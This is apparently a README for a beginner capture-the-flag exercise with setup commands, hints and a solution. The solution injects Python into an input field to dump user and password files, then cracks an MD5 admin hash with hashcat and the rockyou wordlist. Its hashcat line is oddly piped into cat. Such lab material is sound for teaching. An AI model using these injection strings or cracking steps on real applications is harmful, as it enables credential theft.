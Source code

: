 # To get started

run this command:
```shell
git clone https://github.com/HaavardVS/CTF.git && cd CTF && cd test && clear && python3 main.py
```

if you exit, and want to try again, enter this command:

```shell
python3 main.py
```

---

*scroll down for hints*



##### Hints:

1. Maybe some of the users name is Jason.

2. I must admint there are many users.

3. what do you get if you give a markdown file a high five?

---


##### Solution:

1. enter this string in the user input:
```python
print(open('users.json').read()); print(username)
```
this will print out all the users. Find the admin user.


2. enter this string in the user input:
```python
print(open('passwords.json').read()); print(username)
```
this will print out all the hashed passwords for the users. Find the admin hash.


3. Dehash the admin hash. Here is an example using hashcat:
```shell
hashcat -m 0 -a 0 -o cracked.txt 21232f297a57a5a743894a0e4a801fc3 /usr/share/wordlists/rockyou.txt.gz | cat cracked.txt
```
